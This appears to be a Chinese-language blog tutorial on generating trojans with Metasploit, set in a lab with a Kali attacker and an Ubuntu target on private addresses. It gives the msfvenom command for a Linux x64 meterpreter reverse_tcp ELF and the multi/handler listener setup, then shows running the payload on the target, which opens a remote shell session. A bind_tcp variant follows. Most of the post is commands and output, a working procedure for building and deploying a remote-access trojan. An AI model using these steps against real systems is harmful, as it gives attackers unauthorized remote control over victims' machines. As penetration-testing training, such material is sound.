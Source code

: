 ```yaml
---
layout: post
title: 使用 msf 生成木马
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```



# docker 安装 msf

创建容器：
```
 docker run --rm -it  --name msf     strm/metasploit
```

进入容器：
```
docker exec -it msf /bin/bash
msfconsole
```
# 0x01 环境

攻击机：Kali Linux 2020.1 172.16.252.129
靶机：Ubuntu 16.04 172.16.252.138

**查看当前系统的位数：**

```[root@localhost ~]# getconf LONG_BIT```


> msf 连接分为 `反向连接、正向连接`


# 生成反向连接木马

使用kali自带的Msfvenom工具生成木马。
查看有哪些linux下的载荷：
```
msfvenom -l payloads | grep linux
```

针对Ubuntu 64位靶机，使用linux/x64/meterpreter/reverse_tcp载荷，并指定反弹连接的IP和端口，生成elf类型的木马：

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.252.129 LPORT=1234 -f elf > shell.elf

```


打印以下信息：
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

```

在当前目录已经生成了shell.elf文件。

### 打开监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
set lhost 172.16.252.129
set lport 1234
run
```

### 运行木马

修改之前生成的shell.elf属性为可执行：
```
chmod a+x shell.elf
```
将其拷贝到靶机Ubuntu 16.04中运行：


```
./shell.elf
```

这时kali端打印出：
```
[*] Started reverse TCP handler on 172.16.252.129:1234 
[*] Sending stage (3021284 bytes) to 172.16.252.138
[*] Meterpreter session 2 opened (172.16.252.129:1234 -> 172.16.252.138:56384) at 2020-04-20 07:04:26 -0400
```

# 正向连接木马

类似上面的反向连接木马，可以使用bind_tcp载荷，开启正向连接木马。和反向连接的区别在于：
反向连接木马是**攻击机开放端口**，靶机连过来；
正向连接木马是**靶机开放端口**，攻击机连过去；

生成木马：


放到靶机上运行：

./bindtcp.elf

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 172.16.252.138
set lport 4444
run
```

成功建立连接：
![成功建立连接：](https://img-blog.csdnimg.cn/20200422103852243.png)


# 参考

[msfvenom生成payload命令+内网透到外网](https://www.cnblogs.com/youyouii/p/10013590.html)